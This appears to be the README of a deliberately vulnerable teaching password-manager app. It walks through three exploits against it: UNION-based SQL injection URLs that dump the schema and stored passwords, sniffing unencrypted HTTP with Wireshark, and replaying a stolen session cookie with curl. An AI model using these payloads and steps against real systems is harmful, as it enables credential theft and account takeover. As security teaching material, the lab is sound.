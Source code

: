 # PasswordManager
Before running this application, set the hostname variable to your host ip address. 

#### Run the app with:
    python3 backend.py

### Exploit 1: SQL Injection
1. Create an account, log in, and save a password for some website.
2. Then enter the following urls.
3. http://127.0.0.1:5000/get_password/google'%20UNION%20ALL%20SELECT%20sql%20from%20sqlite_master;-- which gives all schema for database
4. http://127.0.0.1:5000/get_password/google'%20UNION%20ALL%20SELECT%website%20from%20password_table;-- for all websites with passwords stored
5. http://127.0.0.1:5000/get_password/google'%20UNION%20ALL%20SELECT%20password%20from%20password_table;-- for the corresponding passwords

### Exploit 2: Intercepting HTTP Requests
1. Download WireShark
2. Make sure you are on the same WiFi as targetted client (targetted client must be on a different device)
3. Open WireShark and filter by HTTP
4. Monitor user activity by observing HTTP Requests and Responses
5. Obtain information (master key, passwords, cookies)
### Exploit 3: Cookie Retrieval With JavaScript and Spoofing
1. Obtain a device that another user used to sign in to their password manager account (we assume that cookies were used by advertisements during their session)
   
    a. To simulate an ad using their cookies (because we did not want to get ads involved), before the previous user logs out, do Steps 2 and 3

2. Open developer tools and navigate to the console tab
3. Run the ```document.cookie ``` JavaScript function to view cookie information
4. Copy the cookie
5. Send an HTTP GET request to the server using the following command to obtain the password for the specified website. (Note that the previous user must have a password for that website stored in the database)
#
    curl --header "Cookie: session=<place cookie here>" --header "Host: <place host ip address and port number>" --header "Referer: <place host ip address and port number>/get_password" <place host ip address and port number>/get_password/<website>    
    
